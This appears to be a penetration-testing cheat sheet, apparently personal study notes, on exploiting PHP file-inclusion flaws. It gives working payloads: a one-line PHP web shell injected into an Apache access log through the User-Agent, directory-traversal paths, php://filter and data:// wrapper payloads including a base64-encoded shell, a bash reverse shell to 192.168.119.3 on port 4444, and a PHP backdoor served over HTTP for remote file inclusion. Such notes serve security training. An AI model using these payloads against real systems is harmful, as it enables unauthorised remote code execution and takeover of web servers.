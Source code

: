  in `curl`, use `--data-urlencode` parameter.
Use `--path-as-is` in curl ,there will be no encode.

## LFI
"include" a file in the application's running code -> execute
```php
<?php echo system($_GET['cmd']); ?>
```
eg. write php code(RCE) to `access.log`(user-agent) , then execute it by add `&cmd=ls%20-la`
`?page=../../../../../../../../../var/log/apache2/access.log`
## Rev shell Linux
```bash
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```
## PHP Wrappers
### `php://filter`  - Display contents of files  without execution.
```bash
?page=php://filter/resource=admin.php
?page=php://convert.base64-encode/resource=admin.php
```
### `data://` - Achieve code execution
_The `allow_url_include` option(disabled by default) needs to be enabled._
Add **data://** followed by the data type and content.
```bash
?page=data://text/plain,<?php%20echo%20system('ls');?>
or
?page=data://text/plain;base64,PD9waHAgZW...&cmd=ls
(In here, PD9waHAgZW...= echo -n '<?php echo system($_GET["cmd"]);?>' | base64)
```

## RFI
Include files from a remote system over HTTP or SMB. 
_The `allow_url_include` option(disabled by default) needs to be enabled to leverage RFI._
`simple-backdoor.php:`
```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```
Host a http server, `python3 -m http.server 80`
```bash
?page=http://192.168.119.3/simple-backdoor.php&cmd=ls
```
